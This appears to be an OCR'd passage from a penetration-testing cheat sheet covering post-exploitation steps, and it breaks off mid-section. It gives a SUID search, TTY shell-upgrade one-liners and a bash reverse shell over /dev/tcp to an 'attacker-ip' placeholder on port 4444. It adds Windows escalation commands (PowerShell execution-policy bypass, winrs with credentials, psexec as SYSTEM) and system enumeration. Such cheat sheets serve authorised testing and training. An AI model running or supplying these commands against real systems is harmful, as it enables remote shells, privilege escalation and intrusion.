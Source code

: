 ```bash
# Quick SUID check
find / -type f -perm -4000 2>/dev/null | head -20
```

### Upgrading Shells

#### Linux Shell Upgrades
```bash
# Python TTY
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Full interactive shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z to background
stty raw -echo; fg
# Press Enter twice
export SHELL=bash
export TERM=xterm-256color

# Alternative methods
script -qc /bin/bash /dev/null
echo os.system('/bin/bash')
/bin/sh -i
exec 5<>/dev/tcp/attacker-ip/4444;cat <&5 | while read line; do $line 2>&5 >&5; done
```

#### Windows Shell Upgrades
```cmd
# PowerShell from cmd
powershell.exe -nop -ep bypass

# WinRM if credentials available
winrs -r:target -u:user -p:pass cmd

# PSExec style upgrade
psexec.exe -i -s cmd.exe
```

## Information Gathering

### Windows Information Gathering

#### System Information
```cmd
# Detailed system info
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
wmic computersystem get Name,Domain,Manufacturer,Model,NumberOfProcessors,TotalPhysicalMemory

# Installed software
wmic product get name,version
dir "C:\Program Files"
dir "C:\Program Files (x86)"

# Running processes
tasklist /svc
wmic process list full

# Scheduled tasks
schtasks /query /fo LIST /v
schtasks /query /fo csv /v | findstr /v "INFO"

# Services
```